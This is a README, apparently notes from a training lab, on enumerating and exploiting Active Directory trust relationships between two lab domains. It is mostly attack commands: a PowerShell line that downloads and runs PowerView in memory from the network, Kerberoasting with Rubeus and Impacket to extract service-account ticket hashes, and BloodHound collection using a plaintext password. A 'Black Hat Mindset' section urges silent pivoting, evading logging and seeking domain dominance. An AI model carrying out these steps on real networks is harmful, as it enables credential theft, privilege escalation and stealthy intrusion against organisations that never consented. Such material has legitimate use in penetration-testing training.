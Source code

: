 # Active Directory Trust Relationship README

This README explores techniques to enumerate and exploit trust relationships between domains, focusing on Service Principal Names (SPNs), Kerberoasting, and trust mapping.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Enumeration Commands](#enumeration-commands)
- [Exploitation Techniques](#exploitation-techniques)
- [Visualization with BloodHound](#visualization-with-bloodhound)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Trust relationships in AD allow resource sharing between domains (e.g., `FREIGHTLOGISTICS.LOCAL` and `INLANEFREIGHT.LOCAL`). This guide covers PowerView, Rubeus, Impacket, and BloodHound tools to enumerate SPNs, perform Kerberoasting, and map trust relationships for exploitation. All commands assume you have a compromised host with appropriate access (e.g., domain user credentials).

## Setup and Prerequisites

- Environment: Windows or Linux host with AD access.
- PowerShell: Run with administrative privileges (right-click > "Run as Administrator") on Windows.
- PowerView: Load into memory (e.g., `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')`).
- Rubeus: Download the Rubeus executable (e.g., from its GitHub repo) and place it in your working directory (e.g., `C:\Tools\`).
- Impacket: Install on Linux (e.g., `pip install impacket`) for GetUserSPNs.py.
- BloodHound: Install the Python version on Linux (e.g., `pip install bloodhound`) and ensure Neo4j is set up for GUI analysis.
- Credentials: Obtain valid domain credentials (e.g., `INLANEFREIGHT\administrator`) for remote access or ticket requests.

## Enumeration Commands

Use these commands to gather information about trust relationships and SPNs.

```powershell
# Enumerate accounts with associated SPNs
Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

# Retrieve mssqlsvc account details
Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc | select samaccountname,memberof

# Identify groups with foreign members
Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

# Establish remote PowerShell session
Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator
```

## Exploitation Techniques

Exploit trust relationships and SPNs to extract credentials or escalate privileges.

```powershell
# Kerberoasting with Rubeus
.Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

# Kerberoasting with Impacket
GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```

## Visualization with BloodHound

Map trust relationships and attack paths using BloodHound.

```bash
# Collect data with BloodHound Python
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

# Compress collected data
zip -r ilfreight_bh.zip *.json
```

## Black Hat Mindset

- **Hunt for SPNs**: Target accounts with SPNs (e.g., `mssqlsvc`) for Kerberoasting across trusted domains.
- **Exploit Trusts**: Use foreign group memberships or cross-domain admin access to pivot silently.
- **Stay Invisible**: Run tools in memory (e.g., PowerView, Rubeus) and avoid logging sensitive actions.
- **Map Aggressively**: Use BloodHound to identify the shortest path to domain dominance.

## Resources

- [PowerView Documentation]()
- [Rubeus GitHub]()
- [Impacket Guide]()
- [BloodHound Documentation]()
- [AD Trust Exploitation]()

